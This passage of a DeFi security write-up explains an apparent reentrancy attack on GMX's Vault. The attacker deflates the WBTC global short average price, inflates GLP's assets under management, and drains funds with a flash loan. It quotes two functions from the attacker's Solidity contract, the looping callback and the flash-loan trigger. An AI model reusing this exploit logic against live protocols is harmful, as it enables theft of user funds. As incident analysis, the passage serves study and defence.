 This callback, in turn, generated yet another `decreaseOrder`, perpetuating a cycle.

```solidity
function gmxPositionCallback(bytes32 positionKey, bool isExecuted, bool isIncrease) external{
    require(msg.sender == address(POSITION_ROUTER), "Unauthorized callback");

    ORDER_BOOK.createDecreaseOrder{value: 3000000000000000}(
        address(WETH),
        53106400000000000000000000000000,
        address(WETH),
        26517133600000000000000000000000,
        true,
        1500000000000000000000000000000000,
        true
    );
}
```

This continuous creation and execution of decreaseOrders between the UPDATER and the KEEPER combined with the direct calls to `increasePosition` in the `Vault` allowed the attacker to systematically drive down the `wbtcGlobalShortAveragePrice` from its legitimate value of approximately $109,505.77 to an artificially depressed $1,913.70. A crucial oversight was that while `globalShortSizes` (the total short position size) was correctly updated by the attacker's actions, the averagePrice within the `getGlobalShortAveragePrice` function, used for AUM calculation, remained uncorrected for these "virtual" short positions opened via reentrancy. This created a deceptive impression within the system that existing short positions were opened at a much lower (manipulated) average price, leading to an artificially inflated perceived AUM (Assets Under Management) for the GLP.

After some iterations of this loop, the ratio between `wbtcMaxPrice` and `wbtcGlobalShortAveragePrice` reached a point where it was greater than 50, triggering the first branch of the `receive()` function. This allowed the attacker to execute a final withdrawal of funds from the `Vault`, draining all the assets. The first step of this final withdrawal involved a flash loan from the Uniswap V3 pool, which was used to get the necessary funds.

```solidity
receive() external payable {
    uint256 wbtcGlobalShortAveragePrice = GLP_MANAGER
        .getGlobalShortAveragePrice(address(WBTC));

    uint256 wbtcMaxPrice = VAULT.getMaxPrice(address(WBTC));

    require(
        wbtcMaxPrice > wbtcGlobalShortAveragePrice,
        "Max price is not greater than global short average price"
    );

    if (wbtcMaxPrice / wbtcGlobalShortAveragePrice > 50) {
        uint256 amount0 = 0;
        uint256 amount1 = 7538567619570;

        bytes
            memory data = hex"0000000000000000000000000000000000000000000000000000016639c6c3f200000000000000000000000000000000000000000000000000000574fbde6000";

        WETH_USDC_POOL.flash(address(this), amount0, amount1, data);
    } else {
        //...
    }
}
```
